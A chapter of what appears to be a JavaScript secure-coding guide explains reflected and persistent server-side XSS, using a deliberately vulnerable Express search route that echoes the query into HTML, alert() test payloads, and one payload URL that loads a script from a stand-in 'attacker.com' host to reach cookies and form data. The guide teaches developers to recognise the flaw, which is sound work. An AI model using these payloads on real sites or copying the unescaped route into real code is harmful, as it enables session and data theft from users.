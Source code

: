 Server XSS
==========

As said before "Server XSS" occurs when untrusted data is include in an HTML
response generated by the server. User input is always considered _untrusted_
and _unsafe_ data and it is the most common source of malicious payloads.

Users can supply data to the server through the URL (HTTP `GET` request) or by
filling a form (HTTP `POST` request).

URL parameters are usually used by search engines to send searching keywords to
the server as you can see in Google: your keywords will be visible in the `q`
URL parameter

```
https://www.google.pt/search?q=JS+SCP
```

Following the HTTP request work-flow it will arrive on the server and the value
or `q` parameter will be used to compute the searching results.
Let's assume that there are no results matching your searching criteria. A
common approach to this use case is to write on the screen

```
No results found for "JS SCP"
```

The HTTP request/response is complete and we can easily guess what operations
were done by the server. The following example, illustrates them using an
[Express Node.js web application framework][] router

```javascript
const express = require('express');
const db = require('../lib/db');
const router = express.Router();

router.get('/search', (req, res) => {
  const results = db.search(req.query.q);

  if (results.length === 0) {
    return res.send('<p>No results found for "' + req.query.q + '"</p>');
  }

  // ...
});
```

The `JS SCP` keywords cause no problem, but what if we do search for
`<script>alert(XSS)</script>`?
Th URL will look like

```javascript
https://www.google.pt/search?q=<script>alert(XSS)<%2Fscript>
```

and assuming that there are no results also to this searching keywords, the
server's answer will be

```html
<p>No results found for "<script>alert(XSS)</script>"</p>
```

After receiving and parsing server's HTTP response, you will see written on the
page `No results found for` and a modal window like the one below: your payload
was successfully executed.

![XSS payload execution](./images/xss-alert.png)

It may look not so bad as "we know" that our searches are not persisted
server-side (and so this is also known as Non-Persistent XSS). This way it won't
affect any other users. Well, an attacker will have only to share the URL on a
side channel like email, social networks maybe with a more "meaningful" payload.

```
https://www.google.pt/search?q=<script>s=document.createElement("script"),s.src="//attacker.com/ms.js",document.body.appendChild(s);<%2Fscript>
```

In this case the payload, creates a new `<script>` element which when appended
to the Document body, will load an external arbitrary JavaScript file, under the
attacker's control. This malicious script will execute on page's context with
granted access to everything a legit script has e.g. cookies, local storage,
form data, etc...

For completeness, users' posts/comments on social networks are great examples of
data sent to the server via an HTTP `POST` request. This data won't be visible
in the URL as it is transfered in the request's message body but the work-flow
is pretty much the same (little differences applies on how the server reads
this data).

Let's say we want to share on a social network how awesome this book is, posting
the following contentw

```
Hey guys you definetly read the JS SCP guide!
<script>alert('it is awesome!')</script>
```

In this case we expect our post/comment to be persisted, perhaps on a database,
so that it will be available to other users and for later readings. This fits a
Persistent XSS scenario: the payload is stored server-side and then served to
other users.